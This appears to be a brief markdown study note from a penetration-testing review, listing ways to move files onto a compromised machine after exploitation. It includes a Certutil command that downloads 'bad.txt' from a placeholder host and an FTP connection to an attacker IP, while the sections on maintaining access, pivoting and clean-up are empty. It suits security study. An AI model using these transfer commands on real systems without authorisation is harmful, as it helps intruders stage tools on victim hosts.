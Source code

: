 ## Post Exploitation - Review

### File transfers
* python -m SimpleHTTPServer 80
* python -m pyftpdlib 21 (attacker ip)
*   ftp attackerip (windows machines)
* Certutil.exe -urlcache -f http://ip.address/bad.txt output.txt
* wget (linux machines)
  

### Maintaining access

### Pivoting

### Cleaning up


